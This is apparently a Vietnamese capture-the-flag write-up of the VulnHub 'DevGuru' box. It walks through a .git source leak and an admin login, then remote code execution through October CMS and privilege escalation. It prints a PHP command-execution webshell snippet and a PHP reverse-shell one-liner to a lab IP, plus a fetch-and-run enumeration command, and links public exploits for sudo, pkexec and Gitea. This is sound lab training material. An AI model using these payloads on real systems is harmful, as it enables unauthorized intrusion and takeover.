

# Dev Guru

BOX: Dev Guru

Link: [https://www.vulnhub.com/entry/devguru-1,620/](https://www.vulnhub.com/entry/devguru-1,620/)

## **TO DO:**

- [x]  Info gathering. Nmap, naabu, nuclei.
- [x]  Exploit:
    - [x]  Dump .git
    - [x]  Login /admin page
    - [x]  Shell uploaded
    - [x]  Get Shell
- [x]  Privilege escalation
- [x]  REPORT
- [x]  Done!

# Information Gathering

## Port scanning:

Box này nó cho sẵn IP cho nên việc đầu tiên mình làm là scan port bằng naabu và nmap.




Nhìn vào kết quả trên có thể thấy được trang này bị git leak.

Và có port 8585 chạy GitTea.


## **Map VLAN**


## Vulns check

Sau đó mình dùng nuclei để tìm thêm các lỗ hổng,misconfig, CVE ,….  và thấy có CVE-2018-15473. 


## Fuzzing Time

### **Subdomain:**

**Passive:** 


**Active:** 


### Hidden directory:


Mình được các trang như sau :


Trang này thoạt nhìn trông như trang đăng nhập quản lý Database nên mình đã google thử thì biết được Adminer là Database Management trong PHP.  Tìm thử xem có CVE nào liên quan đến cái này không.


Lên CVE detail tìm thử thì nó dính CVE 2021-21311 . Đại khái CVE như thế này. “**Adminer từ phiên bản 4.0.0 và trước 4.7.9 có lỗ hổng giả mạo yêu cầu phía máy chủ(SSRF). Người dùng các phiên bản Adminer gói tất cả các trình điều khiển (ví dụ: ``adminer.php``) đều bị ảnh hưởng. Điều này đã được khắc phục trong phiên bản 4.7.9.”** mà trang của chúng ta đang sử dụng ở phiên bản 4.7.7 

⇒ Trang /adminer.php này dính SSRF. 


Link CVE: [https://www.cvedetails.com/cve/CVE-2021-21311/](https://www.cvedetails.com/cve/CVE-2021-21311/)

Tiếp theo là trang `/backend`


Dùng Wappalyzer detect thử thì trang này là sử dụng October CMS.


Mình thử tìm CVE của CMS này nhưng không có. 

## **Tổng kết những thông tin useful sau khi scan,fuzzing các kiểu con đà điểu nè:**

| **Scanning** | **PORT** | **Services** | **Version** | **Vuln** | **Exploitable?** | **Note** |
| --- | --- | --- | --- | --- | --- | --- |
| **Naabu  + Nmap**  | 80 | Apache httpd | 2.4.29 | Git leaks | Yes | Khai thác GitLeaks lấy được username/password database  |
|  | 22 | OpenSSH | 7.6p1 |  | Yes |  |
|  | 8585 | GitTea |  |  |  |  |
| **Nuclei** | 22 | OpenSSH | 7.6p1 | CVE-2018-15473  | Yes | enum được username ssh(sẽ tìm hiểu exploit ssh sau) |
| **Fuzzing**  | **PORT** | **File/Directory - Domain** |  |  |  |  |
| **Dirsearch** | 80 | `/adminer.php` | Adminer 4.7.7 |  CVE 2021-21311 | Yes |  |
|  | 80 | `/backend`October CMS 1.0.1 |  |  | Yes |  |
| **Subfinder** |  |  |  |  |  | nothing useful |
| **Knock** |  |  |  |  |  | nothing useful |

# **Exploit:**

## **Foothold**

Dùng Githacker để dump source code từ .git 


Sau đó đọc từng file xem thử có gì useful không.


## S**ource code review time : ON**


Mình tìm thấy user/password để login mysql trong file `database.php`


Sử dụng nó để đăng nhập vào trang `/adminer.php`


Update password của user Frank để đăng nhập vào trang `/backend`


Đăng nhập thành công trang `/backend`


Theo kinh nghiệm của mình thì khi gặp các admin dashboard như này thì việc đầu tiên là check xem có chức năng upload không, nếu có thì tìm cách up shell(bypass filter nếu có). Và mình đã thử từ đổi đuôi - đổi MIME đổi - filesignature , up .htacesss nhưng tất cả đều bị chặn. Vậy là hết cách rồi sao ??? 


Sau khi tìm hiểu thêm thì mình biết được chúng ta có thể thêm code PHP vào trang này thông qua chức năng gọi là ‘CMS’. 


Link docs: [https://docs.octobercms.com/2.x/cms/pages.html#page-variables](https://docs.octobercms.com/2.x/cms/pages.html#page-variables)

Lúc này trong đầu mình tự đặt ra câu hỏi `“Vậy sẽ ra sao nếu nhúng vào trang này một đoạn code thực thi cmd thông qua biến GET và trả về kết quả??”`

Mình có đoạn code như sau: 

```php
function onStart(){
	echo(system($_GET('cmd')));
}
```


Và đây là kết quả: 


Oh Yeah! It’s time to RCE. 

Ở đây mình sử dụng 1 con PHP reverse shell.

```php
php -r '$sock=fsockopen("10.10.1.18",3000);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Mình sẽ URL encode lại và sử dụng lệnh curl để thực thi


Access granted!

Mình đã RCE thành công.

# Privilege Escapsulation:

## Enum:

Dùng Tool lse.h để enum system.

lse.h one line: `bash <(wget -q -O - "[https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh](https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh)") -l2 -i`


## Exploit:

Ta thấy server này có tận 2 CVE có thể leo root, vậy mình sẽ thử khai thác theo cả 2 cách:

**CVE-2021-3156:**  Các Sudo phiên bản trước 1.9.5p2 bị lỗi Off-by-One( một loại BOF), dẫn dến cho phép chuyển đặc quyền lên root thông qua "sudoedit -s" và đối số dòng lệnh kết thúc bằng một ký tự dấu gạch chéo ngược.

Link CVE: [https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2021-3156](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2021-3156)

Link Exploit: [https://github.com/worawit/CVE-2021-3156](https://github.com/worawit/CVE-2021-3156)


**CVE-2021-4034:** lỗ hổng này liên quan tới Polkit pkexec có thể khai thác leo thang đặc quyền.

Link CVE: [https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2021-4034](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2021-4034)

Link Exploit: [https://github.com/ly4k/PwnKit](https://github.com/ly4k/PwnKit)


Có thể exploit CVE này bằng Pwnkit


# In another stage

Sau khi có được root thì game over rồi nhưng mình muốn khai thác sâu hơn vào hệ thống để tìm ra các lỗ hổng khác. 

Đầu tiên đọc thử file `/etc/passwd`


Thì mình thấy trên máy này có user tên là frank . Vậy giờ mình login bằng user này xem thử có gì hay ho không. Đầu tiên mình sẽ đổi password user frank bằng lệnh sau: `echo “123450\n123450” | passwd frank`


Sau đó mình sẽ thực hiện login bằng user frank

Đầu tiên là mình sẽ xem thử folder backups (mình có xem các folder khác nhưng không tìm thấy cái gì useful nên mình tập trung focus vào folder này nhe)

Thì đúng như cái tên của nó folder này chuyên dùng để backup dữ liệu lại.

Mình tìm được file `app.ini.bak`


Trong file `app.ini.bak` có chứa password của dịch vụ gitTea .

Dùng username password này login vào trang `adminer.php` thử (theo suy đoán của mình đây là account database của trang GitTea mà mình đã tìm ra ở port 8585) 


Mình sẽ tìm bảng user và clone 1 account .


Nhưng ở đây password được hash bằng pbkdf2 nên mình thay đổi thành bcrypt cho dễ.


Đăng nhập thành công với account mình vừa clone.


Vào xem config thử


Ta có thể thấy GitTea version 1.12.5 . Search google thì thấy ver này của GitTea dính lỗi RCE thông qua chức năng GitHook.

CVE: [https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/](https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/)

Do trong database vẫn còn 1 user có tên là frank nên mình tìm thử user frank và thấy được 1 repo như này:


Xong mình fork repo về và thêm python reverseshell vào GitHooks


Sau đó mình update repo.


***Ta da!*** 


## Privilege Escapsulation again:

Kiểm tra quyền sudo và thấy user frank này có thể chạy sqlite3 với quyền root mặc định


Exploit: [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

[https://gtfobins.github.io/gtfobins/sqlite3](https://gtfobins.github.io/gtfobins/sqlite3/)


# Now you pwned everything!!! It’s your time to play with the victim.

# End game!!!

# PS:

Nguồn tham khảo các CVE: 

 [https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/](https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/)